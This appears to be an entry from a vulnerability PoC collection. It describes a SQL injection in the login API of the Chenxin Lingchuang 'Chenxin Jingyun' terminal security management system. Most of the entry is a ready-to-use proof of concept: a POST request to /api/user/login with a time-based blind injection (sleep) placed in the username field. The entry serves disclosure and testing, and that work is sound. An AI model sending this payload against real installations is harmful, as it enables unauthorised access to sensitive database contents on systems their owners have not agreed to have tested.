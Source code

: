 # Chenxin Lingchuang Chenxin Jingyun terminal security management system login SQL injection vulnerability

## Vulnerability Description

Chenxin Lingchuang Chenxin Jingyun terminal security management system has SQL injection vulnerability, and attackers can obtain sensitive database information through the vulnerability

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Chenxin Lingchuang Chenxin Jingyun terminal security management system</span>

## Network surveying and mapping



## Vulnerability recurrence,

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1653535043300-0848f113-f483-47b4-bd33-305485f46ae8.png)

Verify POC

```java
POST /api/user/login

captcha=&password=21232f297a57a5a743894a0e4a801fc3&username=admin'and(select*from(select+sleep(3))a)='
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1653535112545-1861e3cf-b0ac-4a04-9851-3b6ccb377bd1.png)